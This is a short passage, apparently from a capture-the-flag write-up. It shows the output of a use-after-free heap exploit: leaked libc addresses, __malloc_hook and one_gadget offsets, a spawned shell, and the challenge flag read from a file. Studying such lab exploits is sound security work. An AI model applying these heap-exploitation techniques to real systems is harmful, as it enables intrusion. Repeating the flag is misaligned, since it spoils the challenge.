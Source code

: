 ```sh
[*] Libc leak: 0x7f8fca9d0b78
[*] Libc base: 0x7f8fca60c000
[*] __malloc_hook: 0x7f8fca9d0aed
[*] one_gadget: 0x7f8fca6fc2a4
[*] Switching to interactive mode
$ ls
chall
flag
run.sh
$ cat flag
bsides_delhi{u4f_1s_d4ng3r0us_4ft3r_4ll!!}
$  
```
